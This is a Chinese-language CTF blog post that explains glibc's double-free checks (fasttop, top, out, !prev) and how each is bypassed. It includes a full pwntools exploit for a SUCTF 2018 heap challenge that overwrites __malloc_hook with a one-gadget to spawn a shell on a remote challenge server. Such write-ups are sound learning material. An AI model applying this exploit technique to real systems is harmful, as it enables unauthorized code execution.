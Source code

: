 ```yaml
---
title: double free or corrupttion
date: 2018-11-14 17:12:30
tags: pwn basic
layout: default
---
```

DOUBLE FREE OR CORRUPTION！

<!--more-->
# Souce
[源码][1]是一切问题的基础。
# Double free
这次主要从源码层面看看double free的各个报错成因，以及绕过姿势。

# Fastbin 
## fasttop
int_free===>if ((unsigned long)(size) <= (unsigned long)(get_max_fast ())
也就是free到fastbin对于doublefree的检测....非常友好
```python
 if (SINGLE_THREAD_P)
      {
        /* Check that the top of the bin is not the record we are going to
           add (i.e., double free).  */
        if (__builtin_expect (old == p, 0))
          malloc_printerr ("double free or corruption (fasttop)");
        p->fd = old;
        *fb = p;
      }
    else
      do
        {
          /* Check that the top of the bin is not the record we are going to
             add (i.e., double free).  */
          if (__builtin_expect (old == p, 0))
            malloc_printerr ("double free or corruption (fasttop)");
          p->fd = old2 = old;
        }
      while ((old = catomic_compare_and_exchange_val_rel (fb, p, old2))
             != old2);
```
这货比较无脑主要是check上个free过得chunk和现在的是不是一样....
所以绕过方式也比较简单
```python
free(1)
free(2)
free(1)
```
如果fastbin中可以freefree过的chunk，那么可以在fastbin中为所欲为...
## EZ_heap
su_2018_招新赛的一题[附件][2]
直接通过doublefree做fastbin_atk改写__malloc_hook然后doublefree触发printerr就可以了
```python
from pwn import *
def cmd(c):
	p.sendlineafter("choice : ",str(c))
def add(size,name,kind="A"):
	cmd(1)
	p.sendlineafter("name :",str(size))
	p.sendafter("animal :",name)
	p.sendlineafter("animal :",kind)
def show():
	cmd(2)
def free(idx):
	cmd(3)
	p.sendlineafter("cage:",str(idx))
def clear_all():
	cmd(4)
p=process("./pwn")
p=remote("43.254.3.203",10006)
#context.log_level='debug'
add(0x1000000090,"A\n")#0
add(0x18,"\n")#1
free(0)
add(0x18,"\n")#2
show()
p.readuntil("[2] :\n")
base=(u64((p.readline()[:-1]+"\x00").ljust(8,'\x00'))<<8)-(0x7fa2234a1b00-0x00007fa2230dd000)
log.warning(hex(base))
#gdb.attach(p)
add(0x60,"\n")#3
add(0x60,'\n')#4

free(3)
free(4)
free(3)
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc.address=base
add(0x60,p64(libc.symbols['__malloc_hook']-35))#3
add(0x60,"\n")#4
add(0x60,"\n")#5
one=0xf02a4+base
add(0x60,'\x00'*19+p64(one))
free(4)
free(4)
#gdb.attach(p)
p.interactive()

#x/8gx 0x0000000006020E0
```
# Not fastbin Not mmapped
主要有以下三个检测
```c
/* Lightweight tests: check whether the block is already the
       top block.  */
    if (__glibc_unlikely (p == av->top))
      malloc_printerr ("double free or corruption (top)");
    /* Or whether the next chunk is beyond the boundaries of the arena.  */
    if (__builtin_expect (contiguous (av)
                          && (char *) nextchunk
                          >= ((char *) av->top + chunksize(av->top)), 0))
        malloc_printerr ("double free or corruption (out)");
    /* Or whether the block is actually not marked used.  */
    if (__glibc_unlikely (!prev_inuse(nextchunk)))
      malloc_printerr ("double free or corruption (!prev)");
```
第一个检测是否是topchunk...一般利用的时候没啥问题
第二个检测本个chunk的末尾是否超出topchunk+topchunk_size...一般注意点改size没啥大问题
第三个检测应该是最常见的，检查下一个chunk的pre_preinuse位，解决方法也就是改pre_preinuse...
看完了doublefree...的几个报错感觉没啥好说的...都比较基础....
就当整合一下知识把...
## over
感觉double free 算是uaf中最友好的利用起来也非常人性化....
本来以为工作量挺大的....没想到20min就写完了....可能太菜了没发觉真正值得研究的东西...


[1]:https://code.woboq.org/userspace/glibc/malloc/malloc.c.html
[2]:https://github.com/n132/Watermalon/tree/master/SUCTF_2018
